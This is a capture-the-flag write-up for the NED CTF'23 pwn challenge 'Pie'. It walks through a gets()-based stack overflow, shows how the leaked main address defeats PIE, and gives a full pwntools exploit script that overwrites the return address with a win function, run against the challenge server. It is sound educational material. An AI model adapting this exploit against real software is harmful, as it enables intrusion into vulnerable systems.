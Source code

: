 ```yaml
---
title: NED CTF'23 - Pwn - Pie
date: '2023-07-03'
tags: ['ctf', 'pwn', 'nedctf', 'writeup', 'buffer-overflow', 'x64', 'pie', 'leaks', 'offset']
draft: false
summary: Given the leaked address of main function, calculating offset and then overwriting the return address to the win function.
---
```


## Challenge Description

Leaks are everywhere.

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9004
```

![chal-info](/static/writeups/nedctf/pwn/pie0.png)

## Solution

Downloading the `pie.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/pie1.png)

The `file` security checks on the binary are as follows

![file](/static/writeups/nedctf/pwn/pie2.png)

Let's run the `pie` binary to check what it does

![run](/static/writeups/nedctf/pwn/pie3.png)

Okay, let's disassemble and check the functions inside ghidra

![ghidra](/static/writeups/nedctf/pwn/pie4.png)

The functions that stand out are `vuln` and the `win` function. By now, we know that `win` often simply reads the `flag.txt` and all we have to do is invoke it. Let's check the `vuln` function:

```c:vuln

void vuln(void) {
  char local_28 [32];

  printf("Leaked address: %p\n",main);
  printf("For the last time could you tell me your name please? ");
  gets(local_28);
  printf("\nThank you %s",local_28);
  return;
}
```

Well, the `gets` is here, once again. The buffer is `32` bytes long. The `main` function is also leaked. So, now we know that we need to do the following:

1. Calculate the offset of the `win` function from the `main` function.
2. Overflow the buffer and overwrite the return address to the `win` function.
3. Get the flag.

### 1. Calculating the offset

To do that, we can utilize pwntools, and use the `ELF` module to calculate the offset. By firstly getting the address of main, we change the local ELF's main to re-align to the leaked address

Now, the address of `win` function will become `elf.sym.win`. We also need to add a `ret` gadget, which will be used to return to the `win` function. To do that, we can use the `ROP` module of pwntools. The code for this will be as follows:

The code for this will be as follows:

```python:offset
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = './pie'
elf = context.binary = ELF(_bin)

if len(sys.argv) == 2 and sys.argv[1] == 'remote':
	io = remote('159.223.192.150', 9004)
else:
	io = process(_bin)

data = io.read().decode('latin-1')
main_func = re.findall('Leaked address: (.*?)\n', data)[0]
info(f"Address for main function: {main_func}")

info("Patching the ELF address:")
elf.address = int(main_func, 16) - elf.sym.main

info(f"win function found at: {elf.sym.win}")
win_func = p64(elf.sym.win)

rop = ROP(elf)
ret = p64(rop.ret.address)
```

### Overflowing the buffer and getting the flag

Now, since we have the first part done, next thing we need to do is craft the payload. We have the address of `win` function, all we need to do is overwrite the instruction pointer to the address and then we're golden. To do that, we need to calculate the offset of the buffer. Once again, basic math; 32 + 8, i.e. 40. Hence, the offset is 40.

```python:payload
payload = b"A" * 40
payload += ret
payload += win_func
io.sendline(payload)
```

This is the gist of it. The final exploit is:

```python:exploit.py
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = './pie'
elf = context.binary = ELF(_bin)

if len(sys.argv) == 2 and sys.argv[1] == 'remote':
	io = remote('159.223.192.150', 9004)
else:
	io = process(_bin)

data = io.read().decode('latin-1')
main_func = re.findall('Leaked address: (.*?)\n', data)[0]
info(f"Address for main function: {main_func}")

info("Patching the ELF address:")
elf.address = int(main_func, 16) - elf.sym.main


info(f"win function found at: {elf.sym.win}")
win_func = p64(elf.sym.win)

rop = ROP(elf)
ret = p64(rop.ret.address)

offset = 40
payload = b'A' * offset + ret + win_func # the payload wasn't working with `flat`.

io.sendline(payload)
buf = io.recv()
try:
	flag = buf.split(b'\n')[-2]
	info(f"Flag: {flag.decode()}")
except:
	info("No flag. An error occurred.")
```

![flag](/static/writeups/nedctf/pwn/pie5.png)

```md
Flag: NCC{pie_byp4ssed_007}
```
